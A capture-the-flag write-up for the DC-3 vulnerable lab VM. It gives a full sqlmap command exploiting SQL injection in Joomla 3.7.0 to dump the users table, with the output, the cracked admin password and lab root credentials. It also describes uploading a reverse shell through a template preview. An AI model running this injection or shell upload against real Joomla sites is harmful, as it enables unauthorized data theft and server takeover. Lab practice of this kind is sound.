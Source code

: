 ```yaml
---
title: DC 3
categories: [Proving Grounds Play, DC]
tags: [Joomla, Kernal Exploit, Sqlmap, PrivEsc, DC]
image:
  path: /Vulnhub-Files/img/DC-3/157-3.png
  alt:  DC-3 Machine 🖥️
---
```



## **Description ⤵️**

>💡 [DC-3](https://vulnhub.com/entry/dc-32,312/) is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
<br>
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
<br>
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
<br>
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I would not give you the answer, instead, I'll give you an idea about how to move forward.
<br>
For those with experience doing CTF and Boot2Root challenges, this probably would not take you long at all (in fact, it could take you less than 20 minutes easily).
<br>
If that is the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.
<br>
**TECHNICAL INFORMATION**
<br>
DC-3 is a VirtualBox VM built on Ubuntu 32 bit, so there should be no issues running it on most PCs.
<br>
Please note: There was an issue reported with DC-3 not working with VMware Workstation. To get around that, I recommend using VirtualBox, however, I have created a separate DC-3 VMware edition for those who can only use VMware.
<br>
It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.
<br>
Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.
<br>
**IMPORTANT**
<br>
While there should be no problems using this VM, by downloading it, you accept full responsibility for any unintentional damage that this VM may cause.
<br>
In saying that, there should not be any problems, but I feel the need to throw this out there just in case.
<br>
**CONTACT**
<br>
I'm also very interested in hearing how people go about solving these challenges, so if you're up for writing a , please do so and send me a link, or alternatively, follow me on Twitter, and DM me (you can unfollow after you've DM'd me if you'd prefer).
<br>
I can be contacted via Twitter - @DCAU7
<br>
This works better with VirtualBox rather than VMware ## Changelog v3.2 - 2020-04-25 v3.0 - 2019-03-26
{: .prompt-tip }

### Let’s find the IP Address first >>

![157-1.png](/Vulnhub-Files/img/DC-3/157-1.png)

```bash
IP →  10.0.2.8
```

## Port Scan Results ➡️

![157-2.png](/Vulnhub-Files/img/DC-3/157-2.png)

```bash
OPEN PORTS >
80   HTTP
```

---

## Web Enumeration ⤵️

![157-3.png](/Vulnhub-Files/img/DC-3/157-3.png)

I found one exploit on exploitdb site for joomla 3.7.0 →

```bash
commands →
sqlmap -u "http://10.0.2.8/**index**.php?**option**=com_fields&**view**=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --dump -p list[fullordering]
```

![157-4.png](/Vulnhub-Files/img/DC-3/157-4.png)

```bash
[02:45:21] [INFO] fetching entries for table '#__users' in database 'joomladb'
[02:45:21] [INFO] retrieved: 'freddy@norealaddress.net'
[02:45:21] [INFO] retrieved: '629'
[02:45:21] [INFO] retrieved: 'admin'
[02:45:21] [INFO] retrieved: '{"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""}'
[02:45:21] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
[02:45:21] [INFO] retrieved: 'admin'

Database: joomladb
```

so with the help of john the ripper I got the password →

![157-5.png](/Vulnhub-Files/img/DC-3/157-5.png)

```bash
admin : snoopy
```

![157-6.png](/Vulnhub-Files/img/DC-3/157-6.png)

so I got In →

Lets upload the reverse shell code now →

![157-7.png](/Vulnhub-Files/img/DC-3/157-7.png)

After this set the reverse shell at port 4444 and then click on **`Template Preview`** →

![157-8.png](/Vulnhub-Files/img/DC-3/157-8.png)

Now lets see What I have with this shell →

`configuration.php` →

![157-9.png](/Vulnhub-Files/img/DC-3/157-9.png)

```bash
secret : 7M6S1HqGMvt1JYkY
user : root
password : squires
```

![157-10.png](/Vulnhub-Files/img/DC-3/157-10.png)

![157-11.png](/Vulnhub-Files/img/DC-3/157-11.png)

it worked →

![157-12.png](/Vulnhub-Files/img/DC-3/157-12.png)

![157-13.png](/Vulnhub-Files/img/DC-3/157-13.png)

![157-14.png](/Vulnhub-Files/img/DC-3/157-14.png)

---